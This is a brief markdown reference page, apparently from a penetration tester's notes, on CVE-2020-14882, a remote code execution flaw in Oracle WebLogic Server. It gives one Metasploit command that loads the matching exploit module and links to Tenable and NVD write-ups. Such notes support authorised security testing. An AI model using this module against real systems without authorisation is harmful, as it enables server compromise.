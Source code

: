 ```yaml
---
title : "CVE-2020-14882"
# pre : ' '
description : "Oracle WebLogic Server RCE."
date : 2021-02-17T09:49:17+01:00
# hidden : true
# draft : true
weight : 260
# tags : ['']
---
```


---

## Oracle WebLogic Server RCE

Metasploit (Oracle WebLogic Server Administration Console Handle RCE)

### Exploit

```plain
msf6> use exploit/multi/http/weblogic_admin_handle_rce
```

## URL List

- [Tenable.com](https://www.tenable.com/blog/cve-2020-14882-oracle-weblogic-remote-code-execution-vulnerability-exploited-in-the-wild)
- [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2020-14882)
